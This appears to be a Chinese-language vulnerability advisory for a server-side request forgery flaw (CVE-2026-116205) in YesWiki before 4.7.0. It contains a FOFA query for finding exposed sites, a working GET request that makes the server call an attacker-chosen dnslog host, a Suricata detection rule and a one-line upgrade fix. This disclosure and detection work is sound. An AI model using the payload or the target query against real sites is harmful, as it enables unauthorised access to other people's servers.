

# yesWiki-CVE-2026-116205-ssrf

yesWiki-CVE-2026-116205-ssrf

# 影响版本

yeswiki<4.7.0

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa: body=&quot;YesWiki&quot;**

**POC/EXP：**

**step1** ssrf

```
GET /?wiki=PagePrincipale/render&content=%5B%5B%7Chttp%3A%2F%2F<dnslogIP>%5D%5D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36

```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"yesWiki - CVE-2026-116205 wiki render content SSRF漏洞";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"wiki=PagePrincipale/render"; nocase; fast_pattern;
        content:"content="; nocase; distance:0;
        content:"%5B%5B"; nocase; distance:0; within:50;
        content:"http%3A%2F%2F"; nocase; distance:0; within:100;
    metadata:
        service http,
        affected_product "yesWiki",
        vulnerability_type "Server-Side Request Forgery (SSRF)",
        severity "high",
        reference "CVE-2026-116205";
    classtype:web-application-attack;
    sid:1000800;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
